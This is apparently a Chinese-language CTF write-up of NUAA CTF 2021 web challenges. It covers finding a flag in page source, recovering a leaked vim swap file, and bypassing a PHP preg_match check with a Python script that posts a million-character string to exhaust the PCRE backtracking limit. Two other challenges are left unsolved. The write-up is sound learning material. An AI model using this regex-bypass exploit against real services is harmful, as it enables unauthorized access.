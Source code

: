 ```yaml
---
title: NUAA CTF 2021 Web Write up
date: 2021-04-10 20:23:04
updated: 2021-04-10 20:24:00
categories:	CTF
tags: 
  - CTF
  - WP 
description: 第一场正式的的CTF比赛WP
sticky:
keywords:
cover:
---
```


# NUAA CTF 2021 Web Write up

## 签到题
打开环境，查看网页源代码，即发现flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328195900666.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_20,color_FFFFFF,t_70)


## DDoSme
打开环境，提示Do you kNow .swp file? 直接百度，查到
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204502583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)

于是知道会要用到Linux
用dirsearch扫一下网站目录，发现了.index.php.swp文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204551203.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


地址栏URL后面输入`.index.php.swp`下载swp文件
这个时候用notepad打开发现全是乱码，百度发现
![](https://img-blog.csdnimg.cn/20210328200950634.png)

于是复制到Linux虚拟机中，

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204652570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


再
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201104698.png)

得到还原后的PHP文件

```php
<?php
function areyouok($greeting){
    return preg_match('/Baby.*PHP/is',$greeting);
}

$greeting=@$_POST['greeting'];
if(!is_array($greeting)){
    if(!areyouok($greeting)){
        if(strpos($greeting,'Baby PHP')!==false){
            echo 'flag{xxxxxx}';
        }else{
            echo 'Do you kNow .swp file?';
        }
    }else{
        echo 'Do you know PHP?';
    }
}
?>

```
emmm…PHP学的还不多，看不懂，果断度娘，发现……竟然跟18年i春秋圣诞欢乐赛题一样…原理就是pcre具有回溯上限，当回溯超过上限时返回 false，从而绕过正则匹配函数(虽然俺不懂，但俺会CV大法)
链接:[2018年i春秋圣诞欢乐赛Web WP](https://www.jianshu.com/p/68f3c8e5d2b4)
然后通过Python写个脚本：

```python
import requests
from io import BytesIO

files = {
  'greeting':('Baby PHP' + 'a' * 1000000)
}

res = requests.post('http://server.cooook.icu:10003/index.php', data=files, allow_redirects=False)
print(res.text)
```
运行之后，成功拿到flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204722851.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_32,color_FFFFFF,t_70)


## easy_xss
看题目知道是xss跨站脚本漏洞攻击
题目要求是：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201752270.png)
扫了下网站
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201935905.png)
看到了upload.php，试了一下emmm确实打不开
所以要登入管理员界面，xss攻击，想到了窃取cookie绕过登录，
而且正好点开Read sample post出现了管理员发表的文章

然后..就卡住了(っ °Д °)っ
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204809754.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


## base64

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021032821021262.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_32,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328210244539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_48,color_FFFFFF,t_70)
emmm……PHP，Base64，这俩合一起....看了度娘都看不懂...毫无思路


比完赛，感觉 我是废物（；´д｀）ゞ
